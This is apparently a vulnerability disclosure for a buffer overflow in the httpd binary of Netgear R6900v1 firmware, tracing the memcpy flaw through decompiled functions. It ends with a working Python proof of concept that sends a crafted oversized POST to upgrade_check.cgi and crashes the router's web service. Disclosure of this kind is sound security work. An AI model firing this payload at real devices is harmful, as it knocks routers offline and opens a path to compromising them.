

# Netgear R6900v1 router buffer overflow vulnerability

## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20

## Vulnerability description

A buffer overflow vulnerability exists in the binaries of the R6900v1 firmware version. The vulnerability is located in the sub_18334 function in the /usr/sbin/httpd file (R6900-V1.0.1.26_1.0.20 version), memcpy(s, src, v2) Copying contiguous v2 bytes of data from src to a memory area starting with s causes the target memory area (s) to not be large enough to hold the data from the source memory area (src), because the value of v2 reads four contiguous bytes from the memory pointed to by the src pointer. Combine them in a specific byte order (based on the index value) into a 32-bit integer that may be larger than the memory length of the variable s, resulting in a buffer overflow, as shown in the figure below.

Previously, it was necessary to bypass the judgment of strcmp((const char)src, "#$^"), src had to be *#$^, which could be followed by the 0x00 character to cause truncation.


After IDA's use, sub_12CC8 calls sub_18334, where the variable v77 is passed real, it can be seen that the variable s1 needs to meet the 'name="mtenFWUpload"\r\n\r\n' string, the string data as sub_18334.

At the same time, if you want to execute this, the variable v117 must be 1, otherwise jump, but the value of v117 is assigned to 0 in line 713, as shown below.


As can be seen in the following process, the http request must have a while ring returned by the upgrade_check.cgi character.


However, in order to reach this place, certain conditions must be met, that is, to reach LABEL272, as show in the figure below.


## Vulnerability verification

Normal access to the router web side:


A vulnerability exists on the upgrade_check.cgi page


If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal


### poc

Write POC for testing

```
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, the test is performed using real devices, as shown below, and the service can be successfully started


Run the poc script, refresh the page, find that the service crashes, and the vulnerability verification succeeds.

